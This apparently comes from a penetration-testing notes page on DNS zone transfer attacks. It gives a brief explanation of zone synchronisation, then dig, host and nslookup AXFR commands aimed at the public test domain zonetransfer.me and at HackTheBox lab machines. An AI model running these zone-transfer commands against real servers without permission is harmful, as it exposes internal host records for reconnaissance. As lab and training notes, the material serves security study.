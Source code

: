 # DNS Zone Transfer Attack

* Synchronization between the servers involved is realized by zone transfer
  * Using a secret key `rndc-key`,
    * the default configuration, the servers make sure that they communicate with their own master or slave
* The slave fetches the `SOA` record of the relevant zone from the master at certain intervals,
  * the so-called refresh time,
    * usually one hour
  * compares the serial numbers
  * If the serial number of the SOA record of the master is greater than that of the slave, the data sets no longer match.

### Remarks

* if box is ubuntu and using dns tcp on port 53
  * might be susceptible to zone transfer attack

***

### Attack Internet

* get the name server

```bash
dig soa ZoneTransfer.me
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Exploit Zone transfer
  * linux
    * `dig axfr @nsztm1.digi.ninja zonetransfer.me`
    * `host -t axfr zonetransfer.me nsztm1.digi.ninja`
  * windows
    * `nslookup -type=axfr zonetransfer.me nsztm1.digi.ninja`

### Attack HTB

```bash
nslookup
```

```bash
server <server to ask for DNS request>
```

* ask the dns server to query it self

```
10.10.11.166
```

* for zone transfer

```bash
dig axfr @dns.server.ip top_level_domain.com
```

* example

```
dig axfr @10.10.10.123 friendzoneportal.red
```

## Reference

* https://yogesh-verma.medium.com/zone-transfer-attacks-a-practical-guide-to-detection-and-prevention-2e8346d0297e
